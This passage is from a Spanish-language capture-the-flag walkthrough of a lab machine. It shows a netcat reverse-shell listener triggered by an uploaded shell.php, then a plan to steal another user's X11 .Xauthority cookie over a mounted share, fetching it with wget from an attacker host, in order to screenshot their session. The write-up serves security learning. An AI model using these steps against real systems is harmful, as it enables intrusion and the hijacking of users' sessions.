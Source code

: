 ```
Ahora me pondre en escucha por netcat:

```
nc -nlvp 443
```
Y accedere al recurso:
```
http://10.10.11.191/shell.php
```
Y con eso ya obtuvimos una reverse shell, ahora toca hacerla interactiva y ya hemos conseguido la flag de user:

```
alex@squashed:/home/alex$ cat user.txt
cat user.txt
5ada1f0eea8f0909d110e6290f695705
```

## Flag de root via X11

Recordemos que anteriormente en el directorio ```/home/ross``` estaba establecido con el UID 1001, asi que como hicimos con el otro directorio, crearemos un usuario que le asignaremos el UID 1001 para que podamos leer todos los archivos.

Vemos que en el directorio existe el archivo ```.Xauthority``` y ```.xsession```, estos significa que se puede configurar una pantalla X11, .Xauthority se usa para almacenar una ```Magic cookie```, que simplemente es una cookie para poder conectarse a un servidor X11, si nosotros tenemos la cookie de una persona o su archivo ```.Xauthority``` con esa cookie, lo que podriamos hacer es tomar una captura de su pantalla

Primeramente veremos que sesiones activas existen en el usuario ```alex``` (cuando conseguimos la reverse shell):

```
alex@squashed:/home/alex$ w
w
 01:16:44 up 20:09,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               Wed05   20:09m  2:21   0.04s /usr/libexec/gnome-session-binary --systemd --session=gnome
```

Vemos que existe una sesion activa de ```ross``` usando la pantalla ```:0```.

Entonces lo que tenemos que hacer es:

- Pasarnos el archivo ```.Xauthority``` a Alex
- Desde Alex, configuraremos la variable de entorno ```XAUTHORITY``` con el ```.Xauthority``` de ross
- Tomaremos una captura de pantalla y conseguiremos la flag de root


Para pasarnos el archivo vamos a crear un servidor web con python en el directorio ```/mnt/ross``` (ese es el directorio donde monte ```/home/ross```):

```python3 -m http.server 8080```

Y luego desde el usuario ```Alex``` descargaremos el ```.Xauthority```:

```wget 10.10.14.21:8080/.Xauthority```

Ahora definitemos la variable de entorno con el ```.Xauthority``` de ross:

```XAUTHORITY=/home/alex/.Xauthority```

```